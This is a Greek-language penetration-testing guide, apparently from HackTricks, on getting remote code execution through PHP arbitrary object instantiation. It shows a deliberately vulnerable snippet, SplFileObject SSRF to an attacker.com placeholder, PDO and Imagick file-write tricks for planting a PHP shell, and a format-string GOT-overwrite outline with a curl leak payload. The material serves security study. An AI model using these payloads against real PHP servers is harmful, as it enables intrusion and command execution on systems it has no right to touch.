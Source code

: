 # PHP - RCE εκμετάλλευση δημιουργίας αντικειμένου: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Αυτό είναι βασικά μια σύνοψη του [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Εισαγωγή

Η δημιουργία νέων αυθαίρετων αντικειμένων, όπως `new $_GET["a"]($_GET["a"])`, μπορεί να οδηγήσει σε απομακρυσμένη εκτέλεση κώδικα (Remote Code Execution, RCE), όπως περιγράφεται σε ένα [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Το έγγραφο αυτό τονίζει διάφορες στρατηγικές για την επίτευξη RCE.

## RCE μέσω Προσαρμοσμένων Κλάσεων ή Autoloading

Η σύνταξη `new $a($b)` χρησιμοποιείται για να στιγμιοτυπήσει ένα αντικείμενο όπου **`$a`** αντιπροσωπεύει το όνομα κλάσης και **`$b`** είναι το πρώτο όρισμα που περνάει στον constructor. Αυτές οι μεταβλητές μπορούν να προέρχονται από εισόδους χρήστη όπως GET/POST, όπου μπορεί να είναι συμβολοσειρές ή πίνακες, ή από JSON, όπου μπορεί να εμφανίζονται ως άλλοι τύποι.

Σκεφτείτε το παρακάτω απόσπασμα κώδικα:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Σε αυτή την περίπτωση, η ανάθεση του `$a` σε `App` ή `App2` και του `$b` σε μια εντολή συστήματος (π.χ. `uname -a`) έχει ως αποτέλεσμα την εκτέλεση αυτής της εντολής.

**Autoloading functions** μπορούν να εκμεταλλευτούν αν δεν υπάρχουν τέτοιες κλάσεις άμεσα προσβάσιμες. Αυτές οι συναρτήσεις φορτώνουν αυτόματα κλάσεις από αρχεία όταν χρειάζεται και ορίζονται χρησιμοποιώντας `spl_autoload_register` ή `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Η συμπεριφορά του autoloading διαφέρει ανάλογα με τις εκδόσεις του PHP, προσφέροντας διαφορετικές δυνατότητες για RCE.

## RCE μέσω ενσωματωμένων κλάσεων

Ελλείψει custom classes ή autoloaders, οι **built-in PHP classes** μπορεί να είναι αρκετές για RCE. Ο αριθμός αυτών των κλάσεων κυμαίνεται από 100 έως 200, ανάλογα με την έκδοση του PHP και τα extensions. Μπορούν να απαριθμηθούν χρησιμοποιώντας `get_declared_classes()`.

Οι κατασκευαστές ενδιαφέροντος μπορούν να εντοπιστούν μέσω του reflection API, όπως φαίνεται στο παρακάτω παράδειγμα και στο σύνδεσμο [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE via specific methods includes:**

### **SSRF + Phar Deserialization**

Η κλάση `SplFileObject` επιτρέπει SSRF μέσω του constructor της, επιτρέποντας συνδέσεις σε οποιοδήποτε URL:
```php
new SplFileObject('http://attacker.com/');
```
Το SSRF μπορεί να οδηγήσει σε επιθέσεις αποσειριοποίησης σε εκδόσεις του PHP πριν από την 8.0 χρησιμοποιώντας το πρωτόκολλο Phar.

### **Exploiting PDOs**

Ο constructor της κλάσης PDO επιτρέπει συνδέσεις σε βάσεις δεδομένων μέσω DSN strings, ενδεχομένως επιτρέποντας τη δημιουργία αρχείων ή άλλες αλληλεπιδράσεις:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Έκδοσεις του PHP μέχρι τις 5.3.22 και 5.4.12 ήταν ευάλωτες σε XXE επιθέσεις μέσω των constructors `SoapClient` και `SimpleXMLElement`, ανάλογα με την έκδοση του libxml2.

## RCE via Imagick Extension

Στην ανάλυση των **project's dependencies** διαπιστώθηκε ότι η **Imagick** μπορούσε να αξιοποιηθεί για **command execution** μέσω της δημιουργίας νέων αντικειμένων. Αυτό δημιουργεί ευκαιρία για εκμετάλλευση ευπαθειών.

### VID parser

Διαπιστώθηκε η δυνατότητα του VID parser να γράφει περιεχόμενο σε οποιαδήποτε καθορισμένη διαδρομή στο σύστημα αρχείων. Αυτό μπορεί να οδηγήσει στην τοποθέτηση ενός PHP shell σε έναν web-accessible κατάλογο, επιτυγχάνοντας Remote Code Execution (RCE).

#### VID Parser + File Upload

Σημειώνεται ότι το PHP αποθηκεύει προσωρινά uploaded αρχεία στο `/tmp/phpXXXXXX`. Ο VID parser στην Imagick, χρησιμοποιώντας το πρωτόκολλο **msl**, μπορεί να χειριστεί wildcards σε file paths, διευκολύνοντας τη μεταφορά του προσωρινού αρχείου σε επιλεγμένη θέση. Αυτή η μέθοδος προσφέρει μια επιπλέον προσέγγιση για εγγραφή αυθαίρετων αρχείων στο σύστημα αρχείων.

### PHP Crash + Brute Force

Μια μέθοδος που περιγράφεται στο [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) περιλαμβάνει το upload αρχείων που προκαλούν crash του server πριν τη διαγραφή. Με brute-forcing του ονόματος του προσωρινού αρχείου, γίνεται δυνατό για την Imagick να εκτελέσει arbitrary PHP code. Ωστόσο, αυτή η τεχνική βρέθηκε αποτελεσματική μόνο σε παλαιότερη έκδοση του ImageMagick.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Όταν το user input ελέγχει το όνομα κλάσης (π.χ., `new $_GET['model']()`), η PHP 7.0.0 εισήγαγε ένα προσωρινό bug κατά τη διάρκεια του `Throwable` refactor όπου ο engine εσφαλμένα αντιμετώπιζε το όνομα κλάσης ως printf format string κατά την επίλυση. Αυτό επιτρέπει κλασικά printf-style primitives μέσα στο PHP: leaks με `%p`, έλεγχο του write-count με width specifiers, και arbitrary writes με `%n` εναντίον in-process pointers (π.χ. GOT entries σε ELF builds).

Ελάχιστο αναπαραγωγικό ευάλωτο πρότυπο:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Περίγραμμα εκμετάλλευσης (από την αναφορά):
- Leak addresses via `%p` in the class name to find a writable target:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Use positional parameters and width specifiers to set an exact byte-count, then `%n` to write that value to an address reachable on the stack, aiming at a GOT slot (e.g., `free`) to partially overwrite it to `system`.
- Trigger the hijacked function by passing a class name containing a shell pipe to reach `system("id")`.

Σημειώσεις:
- Λειτουργεί μόνο σε PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); διορθώθηκε σε επόμενες εκδόσεις. Severity: critical εάν υπάρχει arbitrary class instantiation.
- Τα τυπικά payloads συνδυάζουν πολλά `%p` για να διατρέξουν το stack, και στη συνέχεια χρησιμοποιούν `%.<width>d%<pos>$n` για να πραγματοποιήσουν την μερική overwrite.

## Αναφορές

- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
- The Art of PHP: CTF‑born exploits and techniques

{{#include ../../../banners/hacktricks-training.md}}
